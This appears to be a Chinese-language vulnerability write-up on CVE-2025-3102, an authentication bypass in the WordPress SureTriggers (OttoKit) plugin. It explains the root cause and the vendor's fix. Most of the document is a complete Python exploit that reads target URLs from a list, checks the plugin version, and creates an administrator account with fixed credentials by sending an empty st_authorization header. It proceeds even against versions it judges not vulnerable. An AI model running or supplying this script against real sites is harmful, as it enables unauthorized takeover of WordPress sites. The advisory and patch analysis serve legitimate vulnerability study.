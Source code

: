 # WordPress自动化SureTriggers插件认证绕过漏洞

## 漏洞简介

2025 年 4 月，WordPress 自动化插件 OttoKit（原 SureTriggers）被披露存在高严重性安全漏洞（CVE-2025-3102，CVSS v3.1 评分 8.1）。该漏洞为**授权绕过漏洞**，允许未经身份验证的攻击者在特定条件下创建管理员账户，进而完全控制目标 WordPress 站点。漏洞自公开披露后数小时内即遭实战化利用，攻击者通过伪造管理员账户实施网站接管、恶意代码注入等攻击行为。

## 影响范围

SureTriggers WordPress插件包含一个严重的身份验证绕过漏洞（CVE-2025-3102），该漏洞影响1.0.78之前的所有版本。

## 漏洞原理

漏洞存在于 SureTriggers 插件 1.0.78 及之前所有版本的authenticate_user函数中，核心缺陷是对secret_key参数缺乏空值校验。当插件处于**已安装激活但未配置 API 密钥**的未初始化状态时，攻击者可通过构造特制 HTTP 请求，绕过身份验证机制直接调用管理员账户创建接口。具体技术逻辑如下：

- 未配置状态下，插件默认使用空值secret_key作为验证令牌
- 函数未校验secret_key有效性，直接允许后续权限操作
- 利用漏洞可生成具有完全控制权限的管理员账户

![图片来源CN-SEC](.\assets\4-1745914627.png)

## POC

POC来源：https://github.com/baribut/CVE-2025-3102

```python
import requests
import json
import re

# 忽略http警告
requests.packages.urllib3.disable_warnings()

# 配置需要创建的用户信息
EMAIL = "A1andNS@wordpress.org"
USERNAME = "A1andNS"
PASSWORD = "A1andNS"

# 获取插件版本号
def fetch_plugin_version(target_url):
    try:
        readme_url = f"{target_url.rstrip('/')}/wp-content/plugins/suretriggers/readme.txt"
        response = requests.get(readme_url, timeout=10, verify=False)
        if response.status_code == 200:
            match = re.search(r"Stable tag:\s*(\d+\.\d+\.\d+)", response.text)
            if match:
                return match.group(1)
        return None
    except:
        return None

# 判断该版本是否存在漏洞
def is_version_vulnerable(version):
    try:
        version_parts = list(map(int, version.split(".")))
        return version_parts <= [1, 0, 78]
    except:
        return False

# 配置HTTP请求头
def prepare_headers():
    return {
        "User-Agent": "Mozilla/5.0",
        "Content-Type": "application/json",
        "st_authorization": ""
    }

# 创建payload
def build_payload():
    return {
        "integration": "WordPress",
        "type_event": "create_user_if_not_exists",
        "selected_options": {
            "user_email": EMAIL,
            "user_name": USERNAME,
            "password": PASSWORD
        },
        "fields": [],
        "context": {}
    }

# 发送http请求
def send_exploit_request(endpoint, headers, payload):
    try:
        return requests.post(endpoint, headers=headers, json=payload, timeout=15, verify=False)
    except:
        return None

# 处理目标
def handle_target(target_url):
    print(f"\n[>] Target: {target_url}")
    version = fetch_plugin_version(target_url)

    if version:
        print(f"[+] Plugin version: {version}")
        if is_version_vulnerable(version):
            print("[+] Vulnerable version detected. Proceeding with exploit...")
        else:
            print("[-] Target version is not vulnerable. Attempting exploit anyway...")
    else:
        print("[-] Could not determine plugin version. Proceeding without version verification.")

    headers = prepare_headers()
    payload = build_payload()
    endpoint = f"{target_url.rstrip('/')}/wp-json/sure-triggers/v1/automation/action"
    response = send_exploit_request(endpoint, headers, payload)

    if not response:
        print("[-] No response received.")
    else:
        try:
            resp_data = response.json()
            if resp_data.get("success"):
                print("[+] Exploit successful!")
                print(f"[+] Credentials: {USERNAME}:{PASSWORD}")
            else:
                print("[-] Exploit failed. Response indicated failure.")
        except:
            print("[-] Failed to parse JSON response.")

# 把需要检测的url放在list.txt文件中，再使用脚本
def main():
    try:
        with open("list.txt", "r") as file:
            targets = [line.strip() for line in file if line.strip()]
    except FileNotFoundError:
        print("[-] list.txt not found.")
        return

    for target in targets:
        handle_target(target)


if __name__ == "__main__":
    main()
```

## 代码修复情况

通过跟踪Suretriggers的github commit情况，可以发现原来的代码从HTTP头部获取了`st_authorization`参数，并检查secret_key是否匹配，如果匹配则通过验证。因此，如果suretriggers启用后没有设置一个API key，即secret_key为一个空值。那么攻击者只需要在HTTP头中提供空的`st_authorization`即可通过验证。

![image-20250607141121656](./assets/image-20250607141121656.png)

那么我们看看开发者是如何修复该问题的，在接收`st_authorization`参数值后，需要检查secret_key是否不是字符串，是否为空，系统中配置的secret_key是否为空。只有在secret_key是一个不为空的字符串时，才能通过初始验证。后续已经是比对secret_key是否匹配，最后还补充了一个hash值得对比。